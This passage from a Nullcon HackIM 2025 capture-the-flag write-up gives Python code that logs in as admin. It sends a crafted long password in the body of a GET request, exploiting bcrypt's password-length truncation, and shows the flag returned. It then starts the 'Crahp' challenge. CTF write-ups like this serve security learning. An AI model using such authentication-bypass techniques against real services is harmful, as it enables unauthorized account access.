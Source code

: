 we can pass the username and password in body of GET request (fat GET request).

Python Code:

```python
import urllib
import requests

admin_password = b"\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa"
encoded_data = urllib.parse.quote_from_bytes(admin_password)
payload = f"username=admin&password={encoded_data}"
print(
    requests.get(
        f"http://52.59.124.14:5013/",
        data=payload,
        headers={"Content-Type": "application/x-www-form-urlencoded"},
    ).content
)
```

Output:

```shell
┌──PS(Aftab@Sama)-[~\Downloads\Nullcon HackIM CTF Goa 2025]
└─$ python Bfail.py
b"Congrats! It appears you have successfully bf'ed the password. Here is your ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}"
```

Flag: `ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`

---

### Crahp

**Description:** _Oh Crahp, I forgot my credentials! Can you login nontheless?_ \
**URL:** `http://52.59.124.14:5006/`

![crahp-1.png](files/crahp-1.png)
